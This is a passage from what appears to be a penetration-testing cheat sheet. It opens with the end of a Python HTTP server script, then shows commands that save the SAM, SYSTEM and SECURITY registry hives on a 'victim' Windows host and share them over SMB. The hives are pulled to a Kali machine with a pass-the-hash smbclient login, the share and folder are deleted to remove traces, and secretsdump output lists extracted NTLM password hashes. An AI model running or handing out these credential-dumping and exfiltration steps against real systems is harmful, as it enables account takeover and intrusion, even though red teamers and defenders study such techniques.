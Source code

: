 ```python
	logging.info('Starting httpd...\n')
	try:
		httpd.serve_forever()
	except KeyboardInterrupt:
		pass
	httpd.server_close()
	logging.info('Stopping httpd...\n')


if __name__ == '__main__':
	from sys import argv

	if len(argv) == 2:
		run(port=int(argv[1]))
	else:
		run()
```

Another way to transfer the files is to create a share on the victim's host and then just connect to it:

```
PS > mkdir C:\smb_pentest
PS > reg.exe save hklm\sam C:\smb_pentest\sam.hive
PS > reg.exe save hklm\system C:\smb_pentest\system.hive
PS > reg.exe save hklm\security C:\smb_pentest\security.hive
PS > cmd /c net share pentest=c:\smb_pentest /GRANT:"Administrator,FULL"

root@kali:$ proxychains4 -q smbclient.py -hashes :67bb396c79f56301b7dc5d219cc85d86 'administrator@192.168.3.201'
# shares
IPC$
pentest
# use pentest
# ls
drw-rw-rw-          0  Sun Jun 28 00:31:35 2020 .
drw-rw-rw-          0  Sun Jun 28 00:31:35 2020 ..
-rw-rw-rw-      53248  Sun Jun 28 00:25:34 2020 sam.hive
-rw-rw-rw-      49152  Sun Jun 28 00:25:46 2020 security.hive
-rw-rw-rw-   12488704  Sun Jun 28 00:26:17 2020 system.hive
# get sam.hive
# get system.hive
# get security.hive

PS > cmd /c net share pentest /delete
PS > rm -re -fo C:\smb_pentest
```

Extracting hashes locally:

```
root@kali:$ secretsdump.py -sam sam.hive -system system.hive -security security.hive LOCAL
[*] Target system bootKey: 0xe4b2298c95677ce18cd2198b9a36c7df
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67bb396c79f56301b7dc5d219cc85d86:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
loginus:1000:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
```